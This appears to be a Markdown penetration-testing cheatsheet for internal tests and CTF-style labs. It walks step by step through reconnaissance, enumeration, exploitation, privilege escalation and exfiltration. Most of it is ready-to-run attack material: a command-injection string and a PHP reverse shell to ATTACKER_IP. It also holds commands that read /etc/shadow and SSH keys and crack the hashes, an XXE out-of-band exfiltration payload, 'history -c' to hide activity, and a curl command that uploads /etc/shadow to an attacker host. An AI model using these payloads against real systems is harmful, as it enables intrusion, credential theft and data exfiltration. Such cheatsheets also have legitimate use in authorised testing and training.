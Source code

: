# 🛡️ Penetration Testing Cheatsheet

A step-by-step walkthrough covering reconnaissance, exploitation, privilege escalation, post-exploitation, and exfiltration. Designed for both internal testing and CTF-like environments.

---

## 🔍 1. Reconnaissance

### 📌 Network Scanning (with Nmap)
```bash
nmap -p- -sV -sC -T4 -oN full-scan.txt 10.10.10.10
nmap -F -oN fast-scan.txt 10.10.10.10
```

### 📌 Ping Sweep
```bash
fping -a -g 10.10.10.0/24
```

### 📌 DNS Enumeration
```bash
dig axfr @ns1.victim.com victim.com
dnsrecon -d victim.com
```

### 📌 Subdomain Brute-force
```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://victim.com -H "Host: FUZZ.victim.com"
```

---

## 🌐 2. Enumeration

### 📌 HTTP Enumeration
```bash
whatweb http://victim.com
nikto -h http://victim.com
gobuster dir -u http://victim.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

### 📌 SMB Enumeration
```bash
enum4linux -a 10.10.10.10
smbclient -L //10.10.10.10/ -N
```

### 📌 FTP
```bash
ftp 10.10.10.10
```

### 📌 SNMP
```bash
snmpwalk -v2c -c public 10.10.10.10
```

---

## 💥 3. Exploitation

### 📌 Search for Exploits
```bash
searchsploit <service>
msfconsole
# > search <service>
```

### 📌 Manual Command Injection
```bash
127.0.0.1; whoami
```

### 📌 Reverse Shell (PHP)
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'"); ?>
```

### 📌 Start Listener
```bash
nc -lvnp 4444
```

---

## 🔑 4. Credentials & Files

### 📌 Common Files
```bash
cat /etc/passwd
cat /etc/shadow
ls -la ~/.ssh/
cat ~/.bash_history
```

### 📌 Hash Cracking
```bash
unshadow passwd shadow > hashes.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

---

## 🪜 5. Privilege Escalation

### 📌 LinPEAS
```bash
wget http://ATTACKER_IP/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

### 📌 Sudo & SUID
```bash
sudo -l
find / -perm -4000 -type f 2>/dev/null
```

### 📌 GTFOBins
- https://gtfobins.github.io/

---

## 🌐 6. XXE (OOB Exfil)

### external.dtd
```dtd
<!ENTITY % file SYSTEM "file:///root/oob.txt">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://ATTACKER_IP:8000/?x=%file;'>">
%eval;
%exfil;
```

### Malicious XML
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY % remote SYSTEM "http://ATTACKER_IP/external.dtd">
  %remote;
]>
<data>&exfil;</data>
```

### Serve + Capture
```bash
python3 -m http.server 80
nc -lvnp 8000
```

---

## 🧹 7. Post Exploitation

### 📌 Pivot, Transfer, Cleanup
```bash
sudo -u <user> /bin/bash
python3 -m http.server 8000
wget http://ATTACKER_IP:8000/linpeas.sh
history -c
```

---

## 📤 8. Exfiltration
```bash
curl -X POST -F 'file=@/etc/shadow' http://ATTACKER_IP/upload
```

---

## 🛠️ Wordlists & Tools

- `/usr/share/wordlists/rockyou.txt`
- `/usr/share/seclists/`
- Tools: Nmap, Gobuster, Burp, LinPEAS, John, FFUF, Metasploit, etc.

---

## 🧠 Pro Tips

- Start with full TCP scan.
- Always enumerate before exploiting.
- Check for backups, dev notes, `.git`, and `.env`.
